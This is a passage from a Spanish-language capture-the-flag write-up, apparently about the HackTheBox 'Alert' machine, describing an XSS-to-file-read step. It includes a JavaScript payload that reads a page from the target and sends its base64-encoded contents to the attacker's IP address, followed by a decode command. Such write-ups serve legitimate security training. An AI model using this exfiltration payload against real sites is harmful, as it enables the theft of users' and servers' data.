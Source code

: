 ___
## Explotación
### XSS → LFI

A partir del **XSS** que hemos encontrado, modificaremos el contenido de `pwned.js` para poder leer el contenido de `messages.php`.

```js
let req = new XMLHttpRequest();
req.onload=function(){let img = new Image(); img.src="http://10.10.16.51/?content="+btoa(this.responseText)}
req.open("GET", "http://alert.htb/index.php?page=messages")
req.send()
```

Tal y como vemos a continuación, nos llegará una petición de nuestra **Dirección IP** con menos contenido que la de **Dirección IP** de la máquina víctima.

![](<../assets/images/posts/2025-03-25-alert/Pasted image 20250323192638.png>)

Decodificaremos el contenido recibido en nuestra petición (`echo -n '<base64-content>' | base64 -d | cat -l html`), pero no veremos nada diferente a lo que ya veíamos en la página web.

![](<../assets/images/posts/2025-03-25-alert/Pasted image 20250323192656.png>)
